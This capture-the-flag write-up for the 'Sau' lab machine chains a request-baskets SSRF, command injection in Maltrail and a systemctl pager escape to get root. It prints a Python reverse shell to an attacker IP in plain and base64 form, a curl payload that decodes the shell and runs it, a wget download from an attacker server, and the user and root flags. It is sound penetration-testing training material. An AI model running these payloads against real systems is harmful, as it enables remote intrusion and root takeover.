 # Sau

Created: July 11, 2023 12:47 AM
Tags: Easy

# Enumeration

## Nmap scan

```bash
nmap -sCV 10.129.16.58
```

![Untitled](images/Untitled.png)

## Port 55555

![Untitled](images/Untitled%201.png)

Footer:

![Untitled](images/Untitled%202.png)

CVE-2023-27163

[https://gist.github.com/b33t1e/3079c10c88cad379fb166c389ce3b7b3](https://gist.github.com/b33t1e/3079c10c88cad379fb166c389ce3b7b3)

- Create a new basket test
- Configure the basket so that the SSRF can be reproduced. Here is what is the configuration settings of your basket should look like:

![Untitled](images/Untitled%203.png)

⚠️ Don’t forget to setup the proxy response

- Now by accessing url `http://<box_ip>:55555/test` we are directly targeting the web server that is hosted on port 80.

# Port 80

The app doesn’t load properly as our browser can access the different assets however we get one valuable information:

![Untitled](images/Untitled%204.png)

Looking on the internet we can quickly find an OS command injection on Maltrail v0.53: [https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/](https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/)

To replace it we must change the basket settings to the following:

![Untitled](images/Untitled%205.png)

An then perform a curl request containing our command:

```bash
curl 'http://<box_ip>:55555/test' --data 'username=;`inject command here`'
```

Here is a quick test to see if the target can actually communicate back with and if the command injection works or not:  

![Untitled](images/Untitled%206.png)

# Initial Access

To get our initial access we need to start a reverse shell through the command injection. However when trying to do so we get errors due to the interpretation of our request:

![Untitled](images/Untitled%207.png)

To avoid this we will first encode our python reverse shell to base64 and then decode and execute it in our command injection:

[https://www.base64encode.org/](https://www.base64encode.org/)

[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Reverse Shell Cheatsheet.md#python](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python)

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.59",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'

cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjEwLjE1LjU5Iiw0MjQyKSk7b3MuZHVwMihzLmZpbGVubygpLDApOyBvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO2ltcG9ydCBwdHk7IHB0eS5zcGF3bigic2giKSc=
```

And build our curl request with it:

[https://serverfault.com/questions/896695/how-do-i-run-a-command-from-a-base64-encoded-string-in-bash](https://serverfault.com/questions/896695/how-do-i-run-a-command-from-a-base64-encoded-string-in-bash)

```bash
curl 'http://10.129.14.164:55555/test' --data 'username=;`echo cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjEwLjE1LjU5Iiw0MjQyKSk7b3MuZHVwMihzLmZpbGVubygpLDApOyBvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO2ltcG9ydCBwdHk7IHB0eS5zcGF3bigic2giKSc= | base64 -d | sh`'
```

![Untitled](images/Untitled%208.png)

We can now collect the user flag:

![Untitled](images/Untitled%209.png)

```bash
e202ef973e59eeece9997ae5e5fdea65
```

# Host Enumeration

## linpeas

Being on a linux host we run linpeas to automate some of the host enumeration tasks.

To do so:

- first download [linpeas.sh](http://linpeas.sh) from their webpage: http://linpeas.sh
- put in a directory which you can expose and start a basic python web server to expose the file system:

```bash
python -m http.server 8000
```

- from the target use wget to collect the script

```bash
wget <attacker_VPN_IP>:8000/linpeas.sh
```

- make the script executable and run it

```bash
chmod +x linpeas.sh
./linpeas.sh
```

One interesting thing comes out, we can run a systemctl command as root without password.

![Untitled](images/Untitled%2010.png)

Following process `c` from the gtfobins project ([https://gtfobins.github.io/gtfobins/systemctl/#sudo](https://gtfobins.github.io/gtfobins/systemctl/#sudo)) we can achieve a privilege escalation to gain root access:

![Untitled](images/Untitled%2011.png)

# Privilege Escalation

Using the fact that we can run the sudo command on systemctl without password we can used in the systemctl pager (probably less) mode with allows us to gain a shell access as root:

```bash
sudo /usr/bin/systemctl status trail.service
input> !sh
```

root.txt:

```bash
5651424d57f102eb30d2b111a28a785e
```